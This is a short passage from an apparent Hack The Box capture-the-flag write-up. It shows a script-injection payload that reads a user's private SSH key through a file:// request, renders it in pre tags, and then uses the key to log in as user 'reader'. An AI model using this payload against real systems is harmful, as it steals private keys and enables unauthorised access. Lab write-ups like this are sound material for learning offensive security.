 One way to fix this is to add a `<pre>` HTML tag to our payload: `<script>x=new XMLHttpRequest;x.onload=function(){document.write("<pre>"+this.responseText+"</pre>")};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>`

Now that looks much better:

![](/assets/images/htb-writeup-book/fileread3.png)

With the SSH key we can log in with user **reader**.

![](/assets/images/htb-writeup-book/shell1.png)

